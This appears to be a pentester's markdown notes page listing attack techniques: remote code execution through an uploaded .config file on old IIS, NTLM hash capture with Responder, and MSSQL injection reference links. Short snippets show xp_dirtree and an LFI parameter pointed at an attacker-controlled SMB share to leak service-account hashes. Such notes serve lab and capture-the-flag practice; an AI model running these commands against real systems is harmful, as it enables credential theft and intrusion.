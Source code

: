 # Exploits found while exploiting / reading

## Getting RCE using .config file for ASP application
On old version of IIS (e.g: IIS 5.1), it is possible to get code execution by inluding ASP code inside de .config file.  
- [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)  
  
  
## STEAL NTML Hash (Responder)
Important links:  
- [https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)  
  
#### Steal hash from a windows service (example with ms-sql)  
On the victim machine:  
```bash
xp\_dirtree “\\\\<attacker\_ip>\\file.txt”  
# On the attacker machine  
responder -i <interface>  
```  
  
#### Use "responder" on the SMB service  
```bash
responder -I <interface>  
# Context, you have an LFI, and want to get the service account hash of the service 
index.php?file=\\\\10.10.10.1\\htb\\test.txt  
``` 
  
  

## MSSQL
Links:  
- [https://medium.com/ethical-hacking-blog/mssql-connectivity-with-sqsh-debec7188104](https://medium.com/ethical-hacking-blog/mssql-connectivity-with-sqsh-debec7188104)  
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)  
- [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)  
- [https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/](https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/)  
- [https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)  
-  [https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)  

